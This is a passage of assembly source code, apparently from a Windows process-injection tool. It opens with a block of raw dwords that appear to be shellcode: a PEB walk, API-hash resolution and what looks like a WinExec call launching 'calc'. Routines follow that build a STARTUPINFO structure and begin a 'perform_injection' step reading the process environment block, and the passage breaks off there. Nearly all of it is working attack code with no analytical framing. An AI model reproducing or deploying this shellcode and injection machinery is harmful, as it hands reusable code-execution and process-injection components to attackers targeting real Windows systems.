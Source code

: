     dd 0x64c031e5 
    dd 0x8b30508b 
    dd 0x528b0c52 
    dd 0x28728b14 
    dd 0x264ab70f 
    dd 0x3cacff31 
    dd 0x2c027c61 
    dd 0x0dcfc120 
    dd 0xf2e2c701 
    dd 0x528b5752 
    dd 0x3c4a8b10 
    dd 0x78114c8b 
    dd 0xd10148e3 
    dd 0x20598b51 
    dd 0x498bd301 
    dd 0x493ae318 
    dd 0x018b348b 
    dd 0xacff31d6 
    dd 0x010dcfc1 
    dd 0x75e038c7 
    dd 0xf87d03f6 
    dd 0x75247d3b 
    dd 0x588b58e4 
    dd 0x66d30124 
    dd 0x8b4b0c8b 
    dd 0xd3011c58 
    dd 0x018b048b 
    dd 0x244489d0 
    dd 0x615b5b24 
    dd 0xff515a59 
    dd 0x5a5f5fe0 
    dd 0x8deb128b 
    dd 0x8d016a5d 
    dd 0x0000b285 
    dd 0x31685000 
    dd 0xff876f8b 
    dd 0xb5f0bbd5 
    dd 0xa66856a2 
    dd 0xff9dbd95 
    dd 0x7c063cd5 
    dd 0xe0fb800a 
    dd 0x47bb0575 
    dd 0x6a6f7213 
    dd 0xd5ff5300 
    dd 0x636c6163 
    dd 0x00000000 
    
    create_empty_structure:
        pop ebx
        xor eax, eax                        ; Zero EAX
        sub esp, ecx                        ; Allocate stack space for the two structures
        mov edi, esp                        ; set edi to point to the STARTUPINFO structure
        push edi                            ; Preserve EDI on the stack as it will be modified by the following instructions
        rep stosb                           ; Repeat storing zero at the buffer starting at edi until ecx is zero
        pop edi                             ; restore EDI to its original value
        push ebx
        ret
 
    perform_injection:
        ; Get current process ImagePathName
        mov eax, [fs:0x30]                  ; Store the address of the PEB structure in EAX 
        mov eax, [eax+0x10]                 ; Store the address of the _RTL_USER_PROCESS_PARAMETERS  